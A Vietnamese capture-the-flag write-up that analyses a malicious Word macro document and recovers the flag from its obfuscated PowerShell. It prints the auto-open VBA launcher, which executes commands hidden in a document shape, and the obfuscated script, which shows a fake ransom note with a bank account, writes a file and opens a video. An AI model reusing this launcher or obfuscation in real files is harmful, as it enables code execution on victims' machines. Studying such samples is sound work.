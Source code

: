 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-15%20223359.png)

Đề cho một file `Flag.docm` chứa malware. Sử dụng tool olevba để phân tích:
```
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
'Flag format: KCSC{H1_1m_sUcky_+$phlac}'
Sub Auto_Open()
On Error Resume Next
Dim objCmdShape As Shape
Dim hiddenkey As Long
Dim cmdParams() As String
Dim cmdCommand As String
Dim cmdType As String
Dim cmdObj As Object
hiddenkey = RGB(13, 3, 7)
If Val(Application.Version) > 14 Then
    For x = 1 To ActiveDocument.Shapes.Count
        Set objCmdShape = ActiveDocument.Shapes(x)
        If objCmdShape.Shadow.ForeColor.RGB = hiddenkey Then
            cmdType = objCmdShape.Name
            cmdCommand = objCmdShape.AlternativeText
            cmdParams = Split(objCmdShape.TextFrame.TextRange.Text, "|")
            Set cmdObj = Interaction.CreateObject(cmdType)
            VBA$.[Interaction].CallByName! cmdObj, [cmdCommand], VbMethod, "PoWerShElL", Trim(cmdParams(0)), cmdParams(1), cmdParams(2)
            objCmdShape.Delete
            Exit For
        End If
    Next
Else
    MsgBox "Microsoft Word is not installed on this computer or its version is lower than Microsoft Word 2013", vbCritical
    Application.Quit
End If
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub

+----------+--------------------+---------------------------------------------+
```

Được phần 1 của flag `Flag format: KCSC{H1_1m_sUcky_+$phlac}`. Khả năng phần 2 là giá trị của biến `$phlac` trong powershell được thi thực thi bằng script ở trên. Cho nên bước tiếp theo ta sẽ phân tích động. Cho chạy file `Flag.docm` (nhớ là tắt hết các phần mềm anti viruss và thực thi trên máy ảo), thì thấy môt mà hình terminal được bật lên và dẫn tới một video trên youtube (Cảnh bảo: đeo tai nghe trước khi chạy file =)) ).

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20180624.png)

Mở file trong đường dẫn `"C:\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx"` để xem lịch sử cmd đã thực thi. Thấy có ps được chạy khi mở file 'Flag.docm'

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20181608.png)

```
${p4yL04D}=('Mộ'+'t '+'s'+'ố '+'tà'+'i '+'l'+("{1}{0}" -f 'u ','iệ')+'qua'+'n '+'trọ'+'ng '+'của'+' '+'b'+'ạn '+'đ'+'ã '+'bị'+' '+'m'+'ã '+(("hóa!!`nĐể "+'')+'')+("{0}{1}" -f 'đư','ợc')+' '+'hướ'+'ng '+'d'+'ẫn '+'giả'+'i '+'m'+'ã, '+'bạn'+' '+'cầ'+'n '+("{1}{0}" -f'uy','ch')+'ể'+'n '+'kh'+("{1}{0}"-f'ản ','o')+'1'+("{0}{1}"-f '00','k ')+'và'+'o '+'s'+'ố '+'tài'+' '+("{1}{0}" -f'ả','kho')+'n'+' '+(("sau:`n1010107112000`nChủ "+'')+'')+'tà'+'i '+'kh'+("{1}{0}" -f ':','oản')+' '+'N'+'guy'+'ễn '+'Th'+("{1}{0}" -f' ','anh')+(("Long`nNgân "+'')+'')+'h'+("{0}{1}" -f 'àng',' ')+'M'+'B '+'Ba'+'nk')
&('A'+'d'+("{0}{1}"-f 'd-T','ype')) -AssemblyName ("{1}{6}{0}{3}{5}{4}{2}"-f 't.V',("{0}{1}"-f 'Micr','os'),'ic','is',("{1}{0}" -f 's','lBa'),'ua','of');
seT-ItEM ("V"+"arIab"+"le:hVI96") ( [TypE]("{4}{5}{7}{1}{3}{6}{0}{8}{2}" -F 'c.InTER','b','ION','a','miCrOsOf','t.ViS','sI','uAl','ACT') ) ;
 SEt-itEM ('vA'+'Riab'+'le:'+'O7v'+'8k')  (  [TYPE]("{4}{5}{3}{2}{0}{1}"-F '.MSGBOxSt','yLe','.VIsualbASic','Soft','MiC','rO')  ) ;
( get-vARIABlE ('hvI9'+'6')  -valUEONl )::MsgBox(${p4yL04D},  $O7V8K::Information, ("{1}{4}{8}{11}{9}{0}{2}{3}{6}{10}{7}{5}" -f 'cùng thương','Chú',' ','t','ng tô','in','i',' t','i ',' ','ếc báo',' vô'));
.("{3}{0}{1}{2}" -f("{1}{0}"-f 'tp','-Ou'),'u','t',("{0}{1}"-f'W','rite')) ${p4yL04D} | .("{1}{0}{2}" -f("{0}{1}{2}"-f'u','t-','Fil'),'O','e') -Encoding ("{1}{0}"-f'f8','ut') "C:\Users\$env:UserName\Desktop\Hacked.txt"
${Ws`CripT} = .("{0}{2}{1}"-f'New-O','ct','bje') -com ("{1}{0}{2}"-f'c','ws','ript.shell');
 1..50 | .('%') { ${w`SCri`Pt}."s`endK`EYs"([char]175) };
&("{2}{0}{1}" -f 't','art-Process','S') ("{2}{1}{0}" -f 'lore','p','iex') -ArgumentList ("{1}{6}{2}{0}{5}{3}{7}{4}"-f 'ww.youtube.c','-k ','://w','m/w','pRqs4k','o','https','atch?v=BMEdB')
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
.("{4}{0}{3}{2}{1}"-f'-Va','e','abl','ri',("{0}{1}" -f'R',("{0}{1}"-f'emo','ve'))) ("{1}{0}" -f 'c',("{0}{1}" -f'phl','a'))
```

Tìm thấy được biến $phlac

```
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
```
Chạy câu lệnh trên trong terminal và dùng `echo $phlac` để xem giá trị của biến 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20182858.png)

Flag = KCSC{H1_1m_sUcky_Tr0ll_m4lw@r3_y0u_g0t_m3_ah1Hi}



